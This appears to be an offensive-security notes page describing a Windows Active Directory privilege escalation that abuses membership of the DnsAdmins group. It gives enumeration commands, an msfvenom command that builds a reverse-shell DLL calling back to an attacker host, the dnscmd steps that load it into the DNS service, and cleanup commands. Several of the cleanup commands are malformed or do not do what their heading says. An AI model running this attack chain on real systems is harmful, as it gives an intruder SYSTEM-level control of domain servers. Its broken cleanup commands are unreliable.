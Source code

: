 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> The user must be part of `DnsAdmins` domain group.


```
C:\> net user %USERNAME% /domain

C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
..[omitted]..
DOMAIN\DnsAdmins                                              Alias            S-1-5-64-10
```

```
C:\> reg.exe query HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll

PS C:\> Get-ItemProperty Registry::HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

## 02 - Exploit

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll
```


```
C:\> dnscmd.exe /config /serverlevelplugindll .\payload.dll

C:\> sc.exe continue dns
```

## 03 - Cleanup

### 3.1 - Command Prompt

```
C:\> reg.exe delete HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters /v ServerLevelPluginDll
```

```
C:\> net.exe continue dns

C:\> sc.exe continue dns
```

### 3.2 - Powershell

```
PS C:\> Get-ItemProperty Registry::HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

PS C:\> Restart-Computer -Force dns
```

```
PS C:\> Get-Service -ComputerName <IP> -Name dns | Restart-Service -Force

PS C:\> Get-Service -ComputerName <IP> -Name dns | Stop-Service -Force

PS C:\> Get-Service -ComputerName <IP> -Name dns | Start-Service
```

---
## References

### Backlinks

- [[DLL Injection|Malware Development: DLL Injection]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Active Directory/0xA - Users/Manual/Living off the Land]]

### Hacktricks

- [Hacktricks: Privileged Groups](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html)

### Red Team Notes

- [Red Team Notes: From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

### Hacking Articles

- [Hacking Articles: Windows Privilege Escalation - DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)